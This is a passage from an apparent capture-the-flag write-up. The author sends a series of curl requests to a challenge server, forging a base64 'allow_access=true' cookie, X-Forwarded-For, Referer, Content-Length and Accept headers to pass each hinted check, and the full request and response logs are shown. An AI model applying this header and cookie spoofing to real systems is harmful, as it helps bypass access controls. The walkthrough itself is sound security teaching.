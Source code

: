 ```
* Connection #0 to host 192.81.210.234 left intact
```

And it's another bloody `X-Note`. But this one should be easy; the *content-length* must be 10 bytes, and I can fulfill that by adding `Content-Length` header with a value of 10.

Here's the request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --header "Content-Length: 10" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
> Referer: http://localhost/
> Content-Length: 10
>
< HTTP/1.1 200 OK
< Date: Fri, 05 Jun 2020 04:09:11 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: I see you're not accepting our flag/*. Alright then, aborting.
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
* Closing connection 0
```

Surely I'm not done. The next `X-Note` header told me to accept the `flag/*`, which is can easily be done with the `Accept` header. The `Accept` header is used to specify certain media types which are acceptable for the response.

So I sent another request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --header "Content-Length: 10" --header "Accept: flag/*" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
> Referer: http://localhost/
> Content-Length: 10
> Accept: flag/*
>
< HTTP/1.1 200 OK
< Date: Fri, 05 Jun 2020 04:12:23 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
```